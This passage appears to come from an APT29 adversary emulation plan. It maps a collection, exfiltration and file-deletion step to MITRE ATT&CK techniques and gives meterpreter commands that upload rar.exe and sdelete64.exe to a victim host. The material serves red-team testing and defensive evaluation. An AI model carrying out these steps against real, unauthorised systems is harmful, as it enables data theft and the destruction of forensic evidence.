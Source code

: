 * SeaDuke/SeaDaddy samples have been UPX-packed.<sup>[4](https://unit42.paloaltonetworks.com/unit-42-technical-analysis-seaduke/),[5](https://www.slideshare.net/MatthewDunwoody1/no-easy-breach-derby-con-2016),[12](https://www.crowdstrike.com/blog/bears-midst-intrusion-democratic-national-committee/) </sup>

* APT29 has UPX-packed and used SMB to transfer files.<sup> [5](https://www.slideshare.net/MatthewDunwoody1/no-easy-breach-derby-con-2016)</sup>

* APT29 has used UPX-packed, Python-compiled backdoors.<sup> [7](https://www.fireeye.com/blog/products-and-services/2019/02/state-of-the-hack-no-easy-breach-revisited.html)</sup>

---

### Step 9 - Collection

The attacker uploads additional utilities to the secondary victim ([T1105](https://attack.mitre.org/techniques/T1105/)) before running a PowerShell one-liner command ([T1059](https://attack.mitre.org/versions/v6/techniques/T1059/) / [T1059.001](https://attack.mitre.org/techniques/T1059/001/)) to search for filesystem for document and media files ([T1083](https://attack.mitre.org/techniques/T1083/), [T1119](https://attack.mitre.org/techniques/T1119/)). Files of interested are collected ([T1005](https://attack.mitre.org/techniques/T1005/)) then encrypted and compressed ([T1002](https://attack.mitre.org/versions/v6/techniques/T1002/), [T1022](https://attack.mitre.org/versions/v6/techniques/T1022/) / [T1560.001](https://attack.mitre.org/techniques/T1560/001/) into a single file ([T1074](https://attack.mitre.org/versions/v6/techniques/T1074/) / [T1074.001](https://attack.mitre.org/techniques/T1074/001/)). The file this then exfiltrated over the existing C2 connection ([T1041](https://attack.mitre.org/techniques/T1041/)). Finally, the attacker deletes various files ([T1107](https://attack.mitre.org/versions/v6/techniques/T1107/) / [T1070.004](https://attack.mitre.org/techniques/T1070/004/)) associated with that access.

#### Procedures

##### 9.A - Ingress Tool Transfer ([T1105](https://attack.mitre.org/techniques/T1105/))

From the second Metasploit terminal:

[msf] > `sessions`
[msf] > `sessions -i 1`

[meterpreter\*] >

```cmd
upload "/home/gfawkes/Round2/Day1/payloads/r2d1/Seaduke/rar.exe" "C:\\Windows\\Temp\\Rar.exe"
```

[meterpreter\*] >

```cmd
upload "sdelete64.exe" "C:\\Windows\\Temp\\sdelete64.exe"
```

##### 9.B - Collection and Exfiltration ([T1005](https://attack.mitre.org/techniques/T1005/), [T1041](https://attack.mitre.org/techniques/T1041/), [T1002](https://attack.mitre.org/versions/v6/techniques/T1002/),  [T1022](https://attack.mitre.org/versions/v6/techniques/T1022/) / [T1560.001](https://attack.mitre.org/techniques/T1560/001/))
